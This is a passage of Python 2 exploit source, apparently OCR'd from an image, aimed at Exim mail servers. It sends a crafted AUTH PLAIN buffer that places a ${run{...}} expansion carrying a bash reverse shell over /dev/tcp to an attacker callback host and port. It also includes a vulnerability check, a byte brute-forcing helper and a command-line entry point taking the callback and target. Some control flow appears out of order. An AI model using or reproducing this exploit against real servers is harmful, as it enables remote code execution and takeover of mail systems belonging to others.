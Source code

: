        acl_smtp_rcpt_offset = rcpt_index
       local_host = cb
       local_port = cbport
       cmd = "/usr/bin/setsid /bin/bash -c \"/bin/bash --rcfile <(echo 'echo " + "0x%02x " % b1 + "0x%02x " % b2 + "0x%02x " % b3 + "0x%04x " % rcpt_index + "') -i >& /dev/tcp/" + local_host + "/" + str(local_port) + " 0>&1\""
       cmd_expansion_string = "${run{" + cmd + "}}\0"

       auth_plain("J" * acl_smtp_rcpt_offset + cmd_expansion_string + "\x00")# * (bufsize - acl_smtp_rcpt_offset - len(cmd_expansion_string)))

       write("MAIL FROM:<postmaster@localhost>")

       res = f.readline()

       if res != "":
        if test:
         raise Exception("NO TARGET")
        raise Exception("OFFSET")

       raise Exception("BYTE")

       write("RCPT TO:<postmaster@localhost>")
       readuntil("Accepted")

       write("RCPT TO:<postmaster@localhost>")
       if f.readline() == "":
        s.close()
        f.close()
        raise Exception("RCPT TO")

    def checkvuln(host):
     try:
      exploit(0xff, 0xff, 0xff, rcpt_index_start, host, "127.0.0.1", "1337")
     except Exception as e:
      print e
      if str(e) == "EHLO(I)":
       return True
     return False

    def _exploit(b1, b2, b3, rcpt_index, target, cb, cbport, q):
     if b1 > 0xff or b2 > 0xff or b3 > 0xff:
      q.put([b1,b2,b3,"VALUE"])
      return
     try:
      exploit(b1, b2, b3, rcpt_index, target, cb, cbport)
     except Exception as e:
      e = str(e)
      if e == "[Errno 104] Connection reset by peer" or e.find("EOF occurred") > -1:
        e = "BYTE"
      q.put([b1,b2,b3,e])

    if __name__ == '__main__':
     if len(sys.argv) < 4:
      print "%s <cb> <cbport> <target>" % sys.argv[0]
      sys.exit(1)
